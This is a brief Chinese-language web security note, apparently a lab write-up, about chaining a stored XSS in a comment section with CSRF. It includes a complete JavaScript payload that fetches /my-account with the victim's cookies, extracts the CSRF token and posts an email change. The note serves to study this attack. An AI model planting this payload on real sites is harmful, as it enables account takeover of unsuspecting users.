 ### xss + csrf

评论区又存储型 xss。

![image-20250601104706377](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XSS%20%E8%B7%A8%E7%AB%99%E8%84%9A%E6%9C%AC%E6%94%BB%E5%87%BB/images/image-20250601104706377.png)

修改邮箱需要 csrf token。

![image-20250601104753047](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XSS%20%E8%B7%A8%E7%AB%99%E8%84%9A%E6%9C%AC%E6%94%BB%E5%87%BB/images/image-20250601104753047.png)

原理：

使用 xss 跨站发送 get 请求获取 csrf token 后再发送 post 请求修改邮箱。

```js
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);		// get 请求获取 csrf token。
req.withCredentials = true; 		// 携带 cookie。 
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];	// 将 token 取出
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.withCredentials = true; // 在第二个请求中添加
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```

